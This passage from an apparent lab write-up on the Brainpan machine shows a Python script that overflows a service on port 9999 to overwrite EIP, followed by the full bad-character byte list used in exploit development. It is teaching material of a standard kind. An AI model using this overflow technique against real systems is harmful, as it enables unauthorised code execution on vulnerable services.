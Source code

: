Great the offset is 524. To make sure its correct I've updated the script with a buffer of 524 A's, 4 B's which is what will be shown as 42424242 in EIP and the remaining bytes as D's. Ive also added a slight offset of 4 C's

{% highlight python %}
#!/usr/bin/python3

import sys, socket
from time import sleep

filler = "A" * 524
EIP = "B" * 4
offset = "C" * 4
junk = "D" * (700 -len(filler)-len(EIP))
buffer = filler + EIP + offset + junk


try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
{% endhighlight %}

I ran the exploit script again.

![EIP](/assets/images/brainpan/EIP.png)

I now control EIP! 

#### Bad Characters

Before I go any further I need to check for bad characters that could break the exploit. To do this I updated the script with the following string. Normally I remove /x00 as this is a null byte and will break the exploit however to show the process of identifying bad characters I have kept it in. 

```highlight
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f
\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40
\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f
\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f
\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf
\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf
\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
